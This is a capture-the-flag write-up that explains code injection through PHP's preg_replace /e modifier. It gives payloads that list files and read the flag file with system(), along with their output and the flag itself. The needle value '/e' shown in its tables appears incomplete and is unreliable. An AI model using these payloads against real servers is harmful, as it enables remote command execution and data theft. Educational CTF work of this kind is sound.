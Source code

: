 # Web Exotic Attacks Pro Replacer

The website provides a simple interface for text replacement using regular expressions:

- Needle – the regex pattern to find
- Replacement – the value to replace with
- Haystack – the input text where the search happens

The form submits a GET request like this:

```ruby
GET /?needle=...&replacement=...&haystack=...
```

The server uses the following dangerous PHP code behind the scenes:

```php
preg_replace($needle, $replacement, $haystack);
```

If the needle ends in the e modifier, like /pattern/e, it evaluates the replacement as PHP code. This major vulnerability was removed in PHP 7+.

Example: **preg_replace("/.*/e", "system('ls')", "test");**. Will run **system('ls')** on the server and replace the text with the output.

### Exploit

-> To List Files:
| **Field**     | **Value**                |
|---------------|--------------------------|
| **Needle**    | `/e`                     |
| **Replacement** | `system('ls')`         |
| **Haystack**  | *(leave empty or type anything)* |

This will run the ls command and print files in the current directory: 
```
index.php wRtu3ND38n8RNgez
```

-> To Read the Flag File:
| **Field**     | **Value**                                |
|---------------|-------------------------------------------|
| **Needle**    | `/e`                                      |
| **Replacement** | `system('cat wRtu3ND38n8RNgez')`       |
| **Haystack**  | *(anything to trigger match)*             |

This shows the flag: **SSS{st0p_3x3cut1ng_cmds_0n_my_s3rv3r}**
